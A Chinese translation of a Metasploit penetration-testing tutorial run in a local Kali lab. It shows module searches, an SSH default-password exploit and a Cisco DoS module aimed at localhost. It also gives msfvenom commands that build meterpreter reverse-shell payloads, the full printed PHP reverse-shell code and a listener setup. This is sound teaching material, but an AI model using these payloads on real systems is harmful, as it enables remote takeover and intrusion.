



# Metasploit 渗透测试框架

> 原文：<https://levelup.gitconnected.com/ethical-hacking-part-7-metasploit-penetration-testing-framework-b768dac407a>

## 了解风险以防止攻击的道德黑客—测试安全性和识别漏洞的框架


Metasploit 是一个非常强大的开源渗透测试框架。它提供了有关软件漏洞、IDS 签名开发和渗透测试的信息。该工具可用于针对远程目标设备执行和开发漏洞利用代码。 [Metasploit](https://www.metasploit.com/) 本身并不违法，但这真的取决于你用它做什么。

我假设你已经阅读了我的另一篇文章，“[伦理黑客(第 2 部分):Kali Linux 简介](/ethical-hacking-part-2-introducing-kali-linux-37362fafe28b)”，并且有一个 Kali Linux 实例可以跟随本教程。作为标准配置，Metasploit 与 Kali Linux 捆绑在一起。如果你没有使用 Kali Linux，你仍然可以从这里下载并安装 Metasploit。

# 让我们开始吧…

最好确保 Metasploit 是最新的。建议经常检查，建议每周检查一次。

```
kali@kali:~$ **sudo apt update -y; sudo apt install metasploit-framework -y**
```

像这样启动 Metasploit 控制台。

```
kali@kali:~$ **msfconsole** 

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||=[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]Metasploit tip: To save all commands executed since start up to a file, use the makerc commandmsf5 >
```

在控制台中，您可以随时寻求帮助。

```
msf5 > **help**
```

您可以根据您的目标搜索模块。

```
msf5 > **search cisco**
```

实际上，这可能是一个快速绕道并涵盖道德黑客和渗透测试的一个重要部分的好时机，那就是**信息收集**。有许多工具可用，但是 [Nmap](https://tools.kali.org/information-gathering/nmap) 可能是您的测试起点。

```
kali@kali:~$ **nmap -p- -A localhost**
Starting Nmap 7.91 ( [https://nmap.org](https://nmap.org) ) at 2020-10-15 16:24 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000045s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Debian 1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d3:21:10:b8:02:14:5e:13:de:15:98:8f:a8:a9:5a:2a (RSA)
|   256 c7:54:c4:44:5b:cf:68:f3:29:9a:16:b1:17:ca:99:75 (ECDSA)
|_  256 05:f0:7b:8d:52:c5:42:56:f9:b2:30:44:92:50:f6:59 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

[Nmap](https://tools.kali.org/information-gathering/nmap) 允许您扫描主机以识别它，还可以找出它正在提供什么服务。有了这些信息，你就可以进入[漏洞数据库](https://www.exploit-db.com/)或者在 [Metasploit](https://www.metasploit.com/) 中搜索模块。我刚刚扫描了我的本地 Kali 实例，我可以看到一个 SSH 服务器已经启用。

```
msf5 > **search linux**msf5 > **search ssh**
```



…这是给“宋承宪一个人的。几乎所有你能想到的都会在 Metasploit 中返回结果。

如果你键入"**help***<command>*"，例如" **help search** "它为你提供了很多关于如何使用该命令的有用信息。例如，您可能不知道您也可以过滤您的搜索，这在帮助中有解释。

```
Examples:
  search cve:2009 type:exploit
  search cve:2009 type:exploit platform:-linux
```

让我们试试这个…

```
msf5 > **search cve:2020 type:exploit platform:-linux ssh**
```


我们正在寻找 2020 年 Linux 平台上的 SSH 利用。

那么这实际上是做什么的呢？

```
msf5 > **info exploit/linux/ssh/ibm_drm_a3user**Name: IBM Data Risk Manager a3user Default Password
     Module: exploit/linux/ssh/ibm_drm_a3user
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2020-04-21Provided by:
  Pedro Ribeiro <[pedrib@gmail.com](mailto:pedrib@gmail.com)>Available targets:
  Id  Name
  --  ----
  0   IBM Data Risk Manager <= 2.0.6.1Check supported:
  NoBasic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  PASSWORD  idrm             yes       Password to login with
  RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT     22               yes       The target port
  USERNAME  a3user           yes       Username to login withPayload information:Description:
  This module abuses a known default password in IBM Data Risk 
  Manager. The 'a3user' has the default password 'idrm' and allows an 
  attacker to log in to the virtual appliance via SSH. This can be 
  escalate to full root access, as 'a3user' has sudo access with the 
  default password. At the time of disclosure this was an 0day, but it 
  was later confirmed and patched by IBM. Versions <= 2.0.6.1 are 
  confirmed to be vulnerable.References:
  [https://cvedetails.com/cve/CVE-2020-4429/](https://cvedetails.com/cve/CVE-2020-4429/)
  [https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm_drm/ibm_drm_rce.md](https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm_drm/ibm_drm_rce.md)
  [https://seclists.org/fulldisclosure/2020/Apr/33](https://seclists.org/fulldisclosure/2020/Apr/33)
  [https://www.ibm.com/blogs/psirt/security-bulletin-vulnerabilities-exist-in-ibm-data-risk-manager-cve-2020-4427-cve-2020-4428-cve-2020-4429-and-cve-2020-4430/](https://www.ibm.com/blogs/psirt/security-bulletin-vulnerabilities-exist-in-ibm-data-risk-manager-cve-2020-4427-cve-2020-4428-cve-2020-4429-and-cve-2020-4430/)
```

# 剥削时间到了！

虽然这与我的 Kali Linux SSH 服务器无关，但我们将继续以它为例。下一步是告诉 Metasploit 我们想要利用这个漏洞。

```
msf5 > **use exploit/linux/ssh/ibm_drm_a3user**
[*] No payload configured, defaulting to cmd/unix/interact
msf5 exploit(linux/ssh/ibm_drm_a3user) >
```

现在我们需要配置选项…

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > **options**Module options (exploit/linux/ssh/ibm_drm_a3user):Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  idrm             yes       Password to login with
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     22               yes       The target port
   USERNAME  a3user           yes       Username to login withPayload options (cmd/unix/interact):Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------Exploit target:Id  Name
   --  ----
   0   IBM Data Risk Manager <= 2.0.6.1
```

现在我们使用" **set** 命令来设置各种选项。

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > **set RHOSTS localhost**
RHOSTS => localhost
```

一旦你设置了所有你想要的选项，只需运行“ **exploit** ”。

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > **exploit**
[*] Exploiting target 0.0.0.1[*] 0.0.0.1:22 - Attempting to log in to the IBM Data Risk Manager appliance...
```

这太疯狂了。

Metasploit 中的“ **search** ”功能非常强大，但是还有另一种方法可以找到可用的内容。

# 还有哪些漏洞利用模块可用？

有两种方法可以找到答案。第一种方法是从“ **msfconsole** ”中再次运行“ **banner** ”。

```
msf5 > **banner**
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *=[ metasploit v5.0.101-dev                         ]
**+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]**Metasploit tip: You can use help to view all available commands
```

正如你所看到的，在写这篇文章的时候，有 2049 个漏洞，1108 个辅助，344 个帖子，562 个有效载荷，45 个编码器，10 个 nop 和 7 个逃避。

第二种方法是退出" **msfconsole** "并浏览到 Metasploit framework "**modules**"目录。

```
kali@kali:~$ l**s -l /usr/share/metasploit-framework/modules/exploits**
total 100
drwxr-xr-x  3 root root 4096 Oct  1 14:35 aix
drwxr-xr-x  6 root root 4096 Oct  1 14:00 android
drwxr-xr-x  5 root root 4096 Oct  1 14:00 apple_ios
drwxr-xr-x  3 root root 4096 Oct  1 14:00 bsd
drwxr-xr-x  3 root root 4096 Oct  1 14:00 bsdi
drwxr-xr-x  3 root root 4096 Oct  1 14:00 dialup
-rw-r--r--  1 root root 6491 Jul 29 23:36 example_linux_priv_esc.rb
-rw-r--r--  1 root root 2700 Jul 29 23:36 example.rb
-rw-r--r--  1 root root 6396 Jul 29 23:36 example_webapp.rb
drwxr-xr-x  3 root root 4096 Oct  1 14:00 firefox
drwxr-xr-x  9 root root 4096 Oct  1 14:00 freebsd
drwxr-xr-x  3 root root 4096 Oct  1 14:00 hpux
drwxr-xr-x  3 root root 4096 Oct  1 14:00 irix
drwxr-xr-x 23 root root 4096 Oct  1 14:00 linux
drwxr-xr-x  3 root root 4096 Oct  1 14:00 mainframe
drwxr-xr-x 27 root root 4096 Oct  1 14:35 multi
drwxr-xr-x  4 root root 4096 Oct  1 14:00 netware
drwxr-xr-x  3 root root 4096 Oct  1 14:00 openbsd
drwxr-xr-x 13 root root 4096 Oct  1 14:00 osx
drwxr-xr-x  4 root root 4096 Oct  1 14:00 qnx
drwxr-xr-x  8 root root 4096 Oct  1 14:00 solaris
drwxr-xr-x 14 root root 4096 Oct  1 14:00 unix
drwxr-xr-x 52 root root 4096 Oct  1 14:00 windows
```

或者更具体一些，比如“**火狐**漏洞。

```
kali@kali:~$ ls -l /usr/share/metasploit-framework/modules/exploits/firefox/local
total 4
-rw-r--r-- 1 root root 1893 Jul 29 23:36 exec_shellcode.rb
```

这就是它在 Metasploit 中的用法。

```
msf5 > **info exploit/firefox/local/exec_shellcode**Name: Firefox Exec Shellcode from Privileged Javascript Shell
     Module: exploit/firefox/local/exec_shellcode
   Platform: Firefox
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2014-03-10Provided by:
  joev <[joev@metasploit.com](mailto:joev@metasploit.com)>Available targets:
  Id  Name
  --  ----
  0   Native PayloadCheck supported:
  NoBasic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   yes       The session to run this module on.
  TIMEOUT  90               yes       Maximum time (seconds) to wait for a responsePayload information:Description:
  This module allows execution of native payloads from a privileged 
  Firefox Javascript shell. It places the specified payload into 
  memory, adds the necessary protection flags, and calls it, which can 
  be useful for upgrading a Firefox javascript shell to a Meterpreter 
  session without touching the disk.msf5 > **use exploit/firefox/local/exec_shellcode**
[*] No payload configured, defaulting to linux/aarch64/meterpreter/reverse_tcp
```

# 有哪些非漏洞模块可用？

Metasploit 中的任何非利用模块都被称为辅助模块，不附带有效载荷，而利用模块附带有效载荷。辅助模块是框架的一个特性，允许它为开发之外的各种目的进行扩展。例如，让我们看看拒绝服务(DoS)辅助。

```
kali@kali:~$ **ls -l /usr/share/metasploit-framework/modules/auxiliary**
total 100
drwxr-xr-x 46 root root  4096 Oct  1 14:00 admin
drwxr-xr-x  2 root root  4096 Oct  1 14:35 analyze
drwxr-xr-x  2 root root  4096 Oct  1 14:35 bnat
drwxr-xr-x  8 root root  4096 Oct  1 14:35 client
drwxr-xr-x  3 root root  4096 Oct  1 14:00 cloud
drwxr-xr-x  2 root root  4096 Oct  1 14:35 crawler
drwxr-xr-x  2 root root  4096 Oct  1 14:35 docx
drwxr-xr-x 27 root root  4096 Oct  1 14:00 **dos**
-rw-r--r--  1 root root  1490 Jul 29 23:36 example.rb
drwxr-xr-x  2 root root  4096 Oct  1 14:35 fileformat
drwxr-xr-x 10 root root  4096 Oct  1 14:00 fuzzers
drwxr-xr-x  2 root root 20480 Oct  1 14:35 gather
drwxr-xr-x  2 root root  4096 Oct  1 14:35 parser
drwxr-xr-x  3 root root  4096 Oct  1 14:00 pdf
drwxr-xr-x 86 root root  4096 Oct  1 14:00 scanner
drwxr-xr-x  4 root root  4096 Oct  1 14:35 server
drwxr-xr-x  2 root root  4096 Oct  1 14:35 sniffer
drwxr-xr-x  9 root root  4096 Oct  1 14:00 spoof
drwxr-xr-x  4 root root  4096 Oct  1 14:00 sqli
drwxr-xr-x  2 root root  4096 Oct  1 14:35 voip
drwxr-xr-x  5 root root  4096 Oct  1 14:00 vsploitkali@kali:~$ **ls -l /usr/share/metasploit-framework/modules/auxiliary/dos**
total 100
drwxr-xr-x  2 root root 4096 Oct  1 14:35 android
drwxr-xr-x  2 root root 4096 Oct  1 14:35 apple_ios
drwxr-xr-x  2 root root 4096 Oct  1 14:35 cisco
drwxr-xr-x  2 root root 4096 Oct  1 14:35 dhcp
drwxr-xr-x  2 root root 4096 Oct  1 14:35 dns
drwxr-xr-x  3 root root 4096 Oct  1 14:00 freebsd
drwxr-xr-x  2 root root 4096 Oct  1 14:35 hp
drwxr-xr-x  2 root root 4096 Oct  1 14:35 http
drwxr-xr-x  2 root root 4096 Oct  1 14:35 mdns
drwxr-xr-x  2 root root 4096 Oct  1 14:35 misc
drwxr-xr-x  2 root root 4096 Oct  1 14:35 ntp
drwxr-xr-x  2 root root 4096 Oct  1 14:35 pptp
drwxr-xr-x  2 root root 4096 Oct  1 14:35 rpc
drwxr-xr-x  2 root root 4096 Oct  1 14:35 samba
drwxr-xr-x  2 root root 4096 Oct  1 14:35 sap
drwxr-xr-x  2 root root 4096 Oct  1 14:35 scada
drwxr-xr-x  2 root root 4096 Oct  1 14:35 smb
drwxr-xr-x  2 root root 4096 Oct  1 14:35 smtp
drwxr-xr-x  3 root root 4096 Oct  1 14:00 solaris
drwxr-xr-x  2 root root 4096 Oct  1 14:35 ssl
drwxr-xr-x  2 root root 4096 Oct  1 14:35 syslog
drwxr-xr-x  2 root root 4096 Oct  1 14:35 tcp
drwxr-xr-x  2 root root 4096 Oct  1 14:35 upnp
drwxr-xr-x 14 root root 4096 Oct  1 14:00 windows
drwxr-xr-x  2 root root 4096 Oct  1 14:35 wireshark
```

也许更确切地说是思科 DoS 模块？

```
kali@kali:~$ **ls -l /usr/share/metasploit-framework/modules/auxiliary/dos/cisco**
total 8
-rw-r--r-- 1 root root 1876 Jul 29 23:36 ios_http_percentpercent.rb
-rw-r--r-- 1 root root 1764 Jul 29 23:36 ios_telnet_rocem.rb
```

那个 IOS HTTP Percent 模块听起来很有意思？

```
msf5 > **info auxiliary/dos/cisco/ios_http_percentpercent**Name: Cisco IOS HTTP GET /%% Request Denial of Service
     Module: auxiliary/dos/cisco/ios_http_percentpercent
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2000-04-26Provided by:
  aushack <[patrick@osisecurity.com.au](mailto:patrick@osisecurity.com.au)>Check supported:
  NoBasic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT   80               yes       The target port (TCP)Description:
  This module triggers a Denial of Service condition in the Cisco IOS 
  HTTP server. By sending a GET request for "/%%", the device becomes 
  unresponsive. IOS 11.1 -> 12.1 are reportedly vulnerable. This 
  module tested successfully against a Cisco 1600 Router IOS 
  v11.2(18)P.References:
  [http://www.securityfocus.com/bid/1154](http://www.securityfocus.com/bid/1154)
  [https://cvedetails.com/cve/CVE-2000-0380/](https://cvedetails.com/cve/CVE-2000-0380/)
  OSVDB (1302)msf5 > **use auxiliary/dos/cisco/ios_http_percentpercent**msf5 auxiliary(dos/cisco/ios_http_percentpercent) > **set RHOSTS 127.0.0.1**
RHOSTS => 127.0.0.1msf5 auxiliary(dos/cisco/ios_http_percentpercent) > **exploit**
[*] Running module against 127.0.0.1[-] 127.0.0.1:80 - Auxiliary failed: Rex::ConnectionRefused The connection was refused by the remote host (127.0.0.1:80).
[-] 127.0.0.1:80 - Call stack:
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket/comm/local.rb:298:in `rescue in create_by_type'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket/comm/local.rb:263:in `create_by_type'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket/comm/local.rb:33:in `create'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:49:in `create_param'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket/tcp.rb:37:in `create_param'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket/tcp.rb:28:in `create'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/lib/msf/core/exploit/tcp.rb:106:in `connect'
[-] 127.0.0.1:80 -   /usr/share/metasploit-framework/modules/auxiliary/dos/cisco/ios_http_percentpercent.rb:37:in `run'
[*] Auxiliary module execution completed
```

您可能想知道如何退出上下文。

```
msf5 auxiliary(dos/cisco/ios_http_percentpercent) > **back**
msf5 >
```

# 反向外壳客户端(“受害者”)

大多数带有防病毒软件的全补丁系统将检测和隔离反向外壳。我想这应该作为一个警告，以确保您的系统保持最新，并有病毒扫描软件，我会告诉你为什么。

我们将使用一个名为“ **meterpreter** ”的漏洞。

```
msf5 > **search meterpreter**
```

你会注意到 Metasploit "**meter preter**"能够为许多平台创建反向 shell，包括 Avoid、Apple iOS、FreeBSD、Java、Linux、OSX、PHP、Python、Windows 等等。

仅举几个例子…

```
payload/python/meterpreter/reverse_tcp
payload/android/meterpreter/reverse_tcp
apple_ios/aarch64/meterpreter_reverse_tcp
java/meterpreter/reverse_tcp
linux/aarch64/meterpreter_reverse_tcp
linux/armbe/meterpreter_reverse_tcp
linux/mips64/meterpreter_reverse_tcp
linux/mipsbe/meterpreter_reverse_tcp
linux/mipsle/meterpreter/reverse_tcp
linux/mipsle/meterpreter_reverse_tcp
linux/ppc/meterpreter_reverse_tcp
linux/ppc64le/meterpreter_reverse_tcp
linux/ppce500v2/meterpreter_reverse_tcp
linux/x64/meterpreter_reverse_tcp
linux/x86/meterpreter_reverse_tcp
linux/zarch/meterpreter_reverse_tcp
osx/x64/meterpreter_reverse_tcp
php/meterpreter_reverse_tcp
python/meterpreter_reverse_tcp
windows/meterpreter_reverse_tcp
windows/x64/meterpreter_reverse_tcp
```

毒液( **msfvenom** )文档好像是用 Windows 做例子。

```
kali@kali:~$ **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe -o payload.exe**
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: payload.exe
```

我没有 Windows 系统，所以我打算用 Java 来试试。

```
kali@kali:~$ **msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f jar -o runme.jar**
Payload size: 5307 bytes
Final size of jar file: 5307 bytes
Saved as: runme.jar
```

或者作为另一种选择，可能是 PHP。

```
kali@kali:~$ **msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw -o runme.php**
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
Saved as: runme.php
```

PHP 选项的好处在于，通过在文件上运行 Linux“**cat**”，您可以实际看到它在漏洞中创建的代码。

```
/*<?php /**/ error_reporting(0); $ip = '192.168.1.2'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = [@socket_connect](http://twitter.com/socket_connect)($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

所以要明确的是，Windows (payload.exe)、Java (runme.jar)和 PHP(runme.php)都非常不好运行。这是将在受害者设备上运行/安装的内容。

# 反向外壳服务器(“攻击者”)

下一步是配置并启动反向 shell 服务器。

```
msf5 > **use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcpmsf5 exploit(multi/handler) > **set payload java/meterpreter/reverse_tcp**
payload => java/meterpreter/reverse_tcpmsf5 exploit(multi/handler) > **show options**Module options (exploit/multi/handler):Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------Payload options (java/meterpreter/reverse_tcp):Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen portExploit target:Id  Name
   --  ----
   0   Wildcard Targetmsf5 exploit(multi/handler) > **set LHOST 192.168.1.2**
LHOST => 192.168.1.2msf5 exploit(multi/handler) > **set LPORT 4444**
LPORT => 4444msf5 exploit(multi/handler) > **show options**Module options (exploit/multi/handler):Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------Payload options (java/meterpreter/reverse_tcp):Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen portExploit target:Id  Name
   --  ----
   0   Wildcard Targetmsf5 exploit(multi/handler) > **exploit**[*] Started reverse TCP handler on 192.168.1.2:4444
```

那么我们在这里做了什么…

*   开始配置通用 TCP 反向外壳
*   设置有效载荷**Java/meter preter/reverse _ TCP**
*   看了一下选项和我们需要设置的内容
*   设置 LHOST 和 LPORT
*   已检查选项设置是否正确
*   开始利用监听 **192.168.1.2:4444**

在另一个终端中，我可以看到 Kali 正在监听 TCP 4444。

```
kali@kali:~$ **netstat -antup | grep :4444**
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 **192.168.1.2:4444**        0.0.0.0:*               LISTEN      63774/ruby
```

我在我的 Kali 主目录( **runme.jar** )中发现了我的漏洞，给它执行权限并运行它。

```
kali@kali:~$ **chmod +x runme.jar** 
kali@kali:~$ **./runme.jar**
kali@kali:~$
```

